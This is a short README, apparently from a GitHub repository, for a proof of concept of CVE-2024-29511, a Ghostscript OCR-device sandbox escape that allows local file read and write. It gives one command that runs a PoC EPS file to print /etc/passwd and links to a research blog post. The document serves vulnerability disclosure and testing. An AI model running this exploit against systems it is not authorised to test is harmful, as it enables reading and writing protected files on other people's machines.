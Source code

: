 # CVE-2024-29511

Local file read and write (outside the SAFER sandbox) using Ghostscript's OCR device.

Blog post with details: https://codeanlabs.com/blog/research/cve-2024-29511-abusing-ghostscripts-ocr-device/

## Exploit

On a Linux system, run:
```
ghostscript -q -dNODISPLAY -dBATCH CVE-2024-29511_poc_passwd.eps
```

If your installation of Ghostscript is vulnerable, it will print the contents of `/etc/passwd` to the terminal.